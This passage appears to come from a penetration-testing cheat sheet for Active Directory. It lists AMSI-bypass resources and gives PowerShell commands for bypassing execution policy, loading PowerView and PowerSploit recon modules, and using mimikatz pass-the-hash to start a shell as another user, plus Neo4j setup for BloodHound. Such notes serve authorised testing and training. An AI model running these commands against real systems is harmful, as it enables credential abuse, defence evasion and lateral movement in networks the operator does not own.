 ### <a name='run-powershell'></a>run-powershell

#### <a name='bypass-amsi'></a>bypass-amsi
- [amsi.fails](https://amsi.fails)
- [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [notes.offsec-journey.com](https://notes.offsec-journey.com/evasion/amsi-bypass)

#### <a name='load-powersploit'></a>load-powersploit

```powershell
# open cmd.exe as admin
powershell -ep bypass
C:\Tools>C:\Tools\Invishell\RunWithRegistryNonAdmin.bat
.\PowerView.ps1

# run powershell with pass-the-hash
mimikatz.exe
privilege::debug
sekurlsa::pth /user:$zlat_user /rc4:xxx  /domain:$zdom /dc:$zdom_dc_fqdn /run:"powershell -ep bypass"
.\PowerView.ps1

# Mandiant Commando VM
cd C:\tools\PowerSploit\Recon
Import-Module ./Recon.psm1
gcm -m Recon
```



#### <a name='no-errors'></a>no-errors

Handling console errors
```powershell
$ErrorActionPreference = 'SilentlyContinue' # hide errors on out console
$ErrorActionPreference = 'Continue' # set back the display of the errors
```

### <a name='run-neo4j'></a>run-neo4j
```powershell
# Path for VM Mandiant Commando
# Start the Neo4J database
C:\Tools\neo4j-community\neo4j-community-3.5.1\bin>./neo4j.bat console
```

## <a name='collect'></a>collect 

### <a name='run-shadowhound'></a>run-shadowhound
```powershell
```

### <a name='run-sharphound'></a>run-sharphound